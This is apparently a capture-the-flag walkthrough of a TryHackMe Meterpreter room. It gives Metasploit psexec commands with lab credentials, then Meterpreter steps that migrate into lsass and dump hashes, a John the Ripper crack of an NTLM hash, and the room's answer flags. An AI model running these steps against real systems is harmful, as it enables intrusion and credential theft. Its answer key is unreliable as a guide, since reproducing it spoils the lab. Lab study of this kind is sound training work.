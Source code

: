 ```yaml
---
description: https://tryhackme.com/room/meterpreter
---
```


# Metasploit: Meterpreter

## Task 5 Post-Exploitation Challenge

```
msfconsole
msf > use exploit/windows/smb/psexec
msf > set RHOSTS 10.10.57.161
msf > set SMBUSER ballen
msf > set SMBPASS Password1
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-38-40.png>)

#### What is the computer name?

```bash
sysinfo
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-47-12.png>)

{% hint style="success" %}
`ACME-TEST`
{% endhint %}

#### What is the target domain?

{% hint style="success" %}
FLASH
{% endhint %}

#### What is the name of the share likely created by the user?

```bash
meterpreter > shell
net share
exit
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-51-06.png>)

{% hint style="success" %}
`speedster`
{% endhint %}

#### What is the NTLM hash of the jchambers user?

* <mark style="color:red;">Works on AttackBox</mark>

```bash
ps lsass.exe
migrate 756
hashdump
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 21-12-32.png>)

{% hint style="success" %}
`69596c7aa1e8daee17f8e78870e25a5c`
{% endhint %}

#### What is the cleartext password of the jchambers user?

```bash
echo 'jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::' > hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 21-15-36.png>)

{% hint style="success" %}
`Trustno1`
{% endhint %}

#### Where is the "secrets.txt" file located?

```bash
search -d C:\\ -f secrets.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-42-53.png>)

{% hint style="success" %}
`C:\Program Files (x86)\Windows Multimedia Platform\`
{% endhint %}

#### What is the Twitter password revealed in the "secrets.txt" file?

{% hint style="success" %}
`KDSvbsw3849!`
{% endhint %}

#### Where is the "realsecret.txt" file located?

```bash
search -d C:\\ -f realsecret.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-45-40.png>)

{% hint style="success" %}
`C:\inetpub\wwwroot\`
{% endhint %}

#### What is the real secret?

{% hint style="success" %}
`The Flash is the fastest man alive`
{% endhint %}

